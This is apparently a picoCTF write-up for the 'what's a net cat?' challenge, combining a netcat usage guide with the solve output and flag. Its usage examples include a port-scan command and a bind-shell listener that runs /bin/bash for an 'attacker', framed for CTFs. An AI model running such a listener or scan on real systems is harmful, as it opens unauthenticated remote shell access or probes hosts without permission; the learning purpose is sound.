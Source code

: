 # [what's a net cat?](https://play.picoctf.org/practice/challenge/34)

---

# 📘 Netcat (`nc`) – Brief Documentation & Usage

## 🔹 What is Netcat?

`nc` (netcat) is a powerful command-line utility in Linux used for **reading and writing data across network connections** using TCP or UDP.
It is often called the *"Swiss-army knife of networking"* because it can act as:

* A **client** (connect to a remote host/port).
* A **server/listener** (open a port and wait for connections).
* A tool for **file transfer**, **port scanning**, and **debugging network services**.

---

## 🔹 General Syntax

```bash
nc [options] [hostname] [port]
```

* **hostname** → IP or domain name (e.g., `127.0.0.1`, `example.com`).
* **port** → TCP/UDP port number (e.g., `80`, `443`, `9001`).

---

## 🔹 Common Options

| Option      | Description                             |
| ----------- | --------------------------------------- |
| `-l`        | Listen mode (server).                   |
| `-p <port>` | Specify local port (when listening).    |
| `-u`        | Use UDP instead of TCP.                 |
| `-v`        | Verbose output (useful for debugging).  |
| `-z`        | Zero-I/O mode (used for port scanning). |
| `-n`        | Numeric only (skip DNS lookup).         |
| `-w <sec>`  | Timeout for connects/receives.          |

---

## 🔹 Usage Examples

### 1. Connect to a remote service (Client Mode)

```bash
nc example.com 80
```

* Opens TCP connection to port **80** of `example.com`.
* Useful for manually sending HTTP requests.

---

### 2. Start a listener (Server Mode)

```bash
nc -l -p 1234
```

* Opens TCP server on port **1234**.
* Waits for a client to connect.

---

### 3. Simple Chat between two systems

* **On machine A (listener):**

  ```bash
  nc -l -p 4444
  ```
* **On machine B (client):**

  ```bash
  nc <IP_of_machine_A> 4444
  ```

Now you can chat by typing text back and forth.

---

### 4. File Transfer

* **Send file (sender):**

  ```bash
  nc -l -p 9000 < file.txt
  ```
* **Receive file (receiver):**

  ```bash
  nc <sender_IP> 9000 > file.txt
  ```

---

### 5. Port Scanning

```bash
nc -zv 192.168.1.10 20-100
```

* Scans ports **20–100** on host `192.168.1.10`.
* Reports which ports are open.

---

### 6. Banner Grabbing (Service Fingerprinting)

```bash
nc -v example.com 21
```

* Connects to FTP port (21) and displays the service banner.

---

### 7. Bind Shell (Reverse Shell for CTFs ⚠️)

* **On victim (listener):**

  ```bash
  nc -l -p 4444 -e /bin/bash
  ```
* **On attacker (client):**

  ```bash
  nc <victim_IP> 4444
  ```

This gives remote shell access.
(*Note: Modern `nc` versions may disable `-e` for security reasons. Use `ncat` or workarounds in CTFs.*)


---

## 🔹 Summary

* **`nc` is versatile**: client, server, file transfer, scanner.
* **Essential for CTFs & debugging**: quickly connect, send/receive raw data, test services.
* **Careful in real environments**: it can be misused for backdoors.

---

### what's a net cat?
```bash
┌──(sumit㉿kali)-[~/Desktop/CTF]
└─$ nc jupiter.challenges.picoctf.org 64287
You're on your way to becoming the net cat master
picoCTF{nEtCat_Mast3ry_284be8f7}
```

